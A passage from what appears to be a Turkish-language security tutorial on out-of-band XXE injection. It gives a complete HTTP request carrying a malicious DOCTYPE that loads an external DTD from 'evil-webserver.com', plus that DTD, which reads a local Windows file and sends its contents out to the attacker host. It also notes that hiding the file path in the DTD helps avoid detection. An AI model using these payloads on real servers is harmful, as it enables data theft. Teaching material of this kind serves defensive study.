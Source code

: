 Yukaridaki ornek aslinda icat edilmis bir ornekti. Cogu zaman XML servera ulastiginda kullanici tarafinda istenen bir sekilde goruntulenmez.Misallerde XML enjekte edilebilir olabilir fakat HTTP cevabinda kullaniciya geri donmeyebilir. Daha once external .dtd dosyalarindan bahsetmistik.DOCTYPE external olarak .dtd dosyalarini referans almamiza izin verek atagi bandin disina cikarabilir.

Burada net anlasilmasi icin daha onceki ornegi degistirecegiz.Ayni zaman server Windows gibi davranacagiz, cesitlilik olsun. Onceki ornekte, ENTITY referansi xxe degiskenin icinde kayitliydi, referans icinde form kullanilmistir. Bu ornekte, ENTITY referansi disardaki serverdan aliyor.<br> `https://evil-webserver.com:`

```
POST /notes/savenote HTTP/1.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:65.0) Gecko/20100101 Firefox/65.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Content-Type: text/xml;charset=UTF-8.
Host: myserver.com

<?xml version=”1.0″ ?>
<!DOCTYPE hack [
<!ELEMENT x ANY >
<!ENTITY % alpha SYSTEM “https://evil-webserver.com/payload.dtd”>
%alpha;
%bravo;
]>
<x>&charlie;</x>
<note>
<to>Alice</to>
<from>Bob</from>
<header>Sync Meeting</header>
<time>1200</time>
<body>Meeting time changed</body>
</note>
```	
External olan payload.dtd ise sunlari iceriyor:

```xml
<?xml version=”1.0″ encoding=”utf-8″ ?>
<!ENTITY % data SYSTEM “file:///c:/windows/win.ini”>
<!ENTITY % bravo “<!ENTITY charlie SYSTEM
‘https://evil-webserver.com/?%data;’>”>
```
Sunu bilinki `file:///c:/windows/win.ini` enjekte edilmis XXE kodundan ziyade .dtd dosyasi icinde.Bu sinsi hareket bize gizlilik sagliyarak, serverdan hangi loglara ulasmak istedigimizi gizlemekte.

Genel sartlar olarak baktigimizda, bu kod sunlari calistiriyor.
